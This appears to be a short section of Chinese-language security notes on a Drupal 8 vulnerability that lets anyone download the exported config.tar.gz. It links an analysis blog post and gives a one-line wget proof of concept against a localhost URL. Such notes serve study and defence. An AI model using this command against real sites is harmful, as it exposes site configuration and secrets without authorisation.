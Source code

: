 ## 8.1.9 

### config.tar.gz 下载漏洞

参考链接

* [Drupal 8 配置文件下载漏洞分析](http://blog.knownsec.com/2016/09/drupal-8-config-download/)

Poc

```
# 后台导出配置后，执行这个
wget 'http://127.0.0.1/system/temporary/?file=config.tar.gz' -O config.tar.gz
```


